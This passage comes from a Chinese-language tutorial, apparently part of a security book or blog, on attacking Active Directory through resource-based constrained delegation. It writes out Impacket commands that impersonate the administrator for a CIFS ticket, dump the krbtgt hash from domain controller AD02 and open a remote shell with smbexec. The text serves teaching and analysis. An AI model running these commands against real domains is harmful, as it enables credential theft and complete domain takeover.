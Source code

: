 如图所示，可以看到此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了。

![截图](8b1cf25687763a96987be56f3db617ff.png)

此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了，可以执行如下命令进行后利用：

```
#以 administrator 的身份申请访问 ad02 机器的 cifs 服务票据
python3 getST.py -spn cifs/ad02.xie.com xie/machine\$:root -dc-ip 10.211.55.4 -impersonate administrator
#导入申请的服务票据
export KRB5CCNAME=administrator.ccache
#导出域内指定 krbtgt 用户的哈希
python3 secretsdump.py -k -no-pass AD02.xie.com -just-dc-user krbtgt
#远程连接 ad02 机器
python3 smbexec.py -no-pass -k AD02.xie.com -codec gbk
```

如图所示，利用完成后，即可导出域内任意用户哈希，也可以直接远程连接域控制器 AD02。

![截图](ac5d0e51f251b906b22f019d83c97dcf.png)

## 漏洞抓包分析

现在我们以攻击 Exchange 服务器为例，利用 WireShark 抓包分析整个漏洞利用过程。如图所示，是整个利用过程的分析图：
